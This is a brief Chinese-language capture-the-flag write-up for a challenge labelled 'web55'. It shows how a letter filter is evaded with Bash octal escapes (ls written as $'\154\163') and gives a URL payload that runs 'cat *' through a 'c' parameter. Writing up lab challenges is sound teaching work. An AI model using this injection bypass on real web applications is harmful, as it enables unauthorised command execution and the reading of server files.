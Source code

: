 # web55
![](vx_images/394142587821683.png)
将字符进行了过滤,猜测用编码
WP:
在 Bash 中，$'\xxx' 语法支持通过八进制 ASCII 码表示字符

bash无字母命令执行

使用

$'\154\163'

会执行ls

故payload是

/?c=$'\143\141\164'%20*


